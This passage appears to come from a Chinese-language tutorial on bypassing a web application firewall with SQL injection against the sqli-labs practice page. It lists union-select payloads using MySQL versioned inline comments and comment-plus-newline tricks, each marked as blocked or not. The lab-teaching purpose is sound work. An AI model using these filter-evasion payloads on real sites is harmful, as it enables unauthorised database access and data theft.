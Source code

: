 内联注释 `/*!/*!*/` 

```
http://192.168.59.129/Less-1/?id=1' union/*!/*!50000select*/ 1,2,3--+  拦截

http://192.168.59.129/Less-1/?id=1' union/*!/*!5select*/ 1,2,3--+  不拦截


```

为什么不拦截 ，因为50000是他的版本号，你多一位少一位语句是不能能正常执行的，所以他就放行了，那么我们可以用burp来遍历这个值呢，结果的确是我们想要的

```
http://192.168.59.129/Less-1/?id=1' union/*!/*!11440select*/ 1,2,3--+ 不拦截

http://192.168.59.129/Less-1/?id=1' union/*!11441/*!11440select*/ 1,2,3--+ 不拦截

http://192.168.59.129/Less-1/?id=1' union/*!11440select*/ 1,2,3--+ 不拦截

http://192.168.59.129/Less-1/?id=-1' union/*!11440/**/%0aselect*/ 1,2,3--+  不拦截

```

这句bypass的核心就在于版本号,然后你就感觉fuzz了千种姿势,但是核心还是这个，最简也是这个,万变不离其宗。


2.  注释绕过

联想注释我们还知道有 --  #  那么他们可以利用吗，当然是肯定的，其实很久以前就有大佬发过这个语句了是
`union %23%0aselect` 因为这些都是单行注释，而%0a 是换行的url编码,大家可以换行后用url编码看看，就是这个，
但是这样已经被加入规则库了，如何绕过呢 非常简单 当然这是个fuzz的过程，其实我只想写出思路，而不是直接给payload。

```
union %23%0aselect 拦截

union %23select 拦截

union a%23 select 不拦截

union all%23 select 不拦截

union all%23%0a select 不拦截

union %23%0aall select 不拦截


```

有时候fuzz右边不行 不如看看左边 为什么可以加all 这个你就得看看mysql手册了，其实测试到最后发现%23%0a中间不能加字符否则会被拦截。



3.  -- 注释绕过

-- 其实大佬们也一样很早说了不过最初的姿势是 `-- %0a` 当然已经被加入豪华午餐了，所以我们来测试 

```
union all -- %0a select 拦截

union  -- ()%0a select 拦截

union  -- 1%0a select 不拦截

union  -- hex()%0a select 不拦截

```
